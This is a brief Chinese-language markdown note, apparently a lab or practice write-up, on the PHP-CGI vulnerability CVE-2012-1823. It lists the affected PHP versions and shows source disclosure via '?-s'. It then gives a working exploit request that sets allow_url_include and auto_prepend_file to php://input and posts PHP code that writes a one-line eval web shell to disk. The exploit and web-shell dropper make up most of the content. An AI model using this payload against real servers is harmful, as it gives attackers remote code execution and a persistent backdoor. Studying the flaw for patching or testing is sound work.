




# CVE-2012-1823


```
漏洞影响范围%0D%0A%0D%0A%E2%80%8B 漏洞影响版本 PHP < 5.3.12 、 PHP < 5.4.2%0D%0A%0D%0A%E2%80%8B CVE-2012-1823是在php-cgi运行模式下出现的漏洞，其漏洞只出现在以cgi模式运行的php中。
```



/index.php?-s显示源码

存在漏洞

```
构造文件包含
payload:
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input


<?php fputs(fopen('1.php','w'),'<?php eval($_POST[1]);?>');?>
```


没有写权限,那就直接读取





